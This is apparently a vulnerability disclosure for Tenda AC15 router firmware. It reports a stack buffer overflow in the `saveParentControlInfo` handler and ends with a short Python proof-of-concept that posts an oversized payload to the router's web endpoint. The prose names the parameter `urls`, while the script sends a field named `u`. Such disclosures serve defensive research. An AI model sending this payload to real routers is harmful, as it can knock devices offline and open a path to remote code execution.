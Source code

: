 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240316165918271](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165918271.png)

it reads in a user-provided parameter `urls`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240316180358563](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180358563.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240316170554480](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316170554480.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"u": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314171654837](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171654837.png)
